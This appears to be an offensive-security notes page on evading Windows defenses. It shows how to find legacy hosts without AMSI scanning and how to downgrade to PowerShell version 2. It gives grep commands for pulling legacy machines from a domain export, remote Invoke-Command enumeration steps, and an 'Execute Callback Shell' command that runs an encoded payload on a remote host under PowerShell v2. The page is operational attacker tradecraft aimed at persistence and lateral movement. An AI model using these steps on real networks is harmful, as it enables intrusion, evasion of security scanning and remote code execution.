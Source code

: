 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Windows Systems Table List

| Operating System       | Installed PowerShell version | Supported PowerShell Version |
| ---------------------- | ---------------------------- | ---------------------------- |
| Windows 7              | 2.0                          | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows Server 2008 R2 | 2.0 (*\*)                    | 2.0, 3.0, 4.0, 5.0, 5.1      |
| Windows 8              | 3.0                          | 2.0, 3.0                     |
| Windows Server 2012    | 3.0                          | 2.0, 3.0, 4.0                |
| Windows 8.1            | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows Server 2012 R2 | 4.0                          | 2.0, 4.0, 5.0, 5.1           |
| Windows 10             | 5.1                          | 2.0                          |
| Windows Server 2016    | 5.1                          | 2.0                          |

## 02 - Lack of AMSI Scanner

### 2.1 - Windows Servers

- Windows Server 2003

```
$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt
```

- Windows Server 2008 R2

```
$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt
```

- Windows Server 2012

```
$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt
```

### 2.2 - Windows Workstations

- Windows XP

```
$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt
```

- Windows 7

```
$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt
```

## 03 - Downgrade Powershell

### 3.1 - Enumerate Powershell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 3.2 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xB - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Active Directory/0xC - Domain Computers/Offensive Tools/Scripts/PowerSploit|PowerSploit: Active Directory Networking]]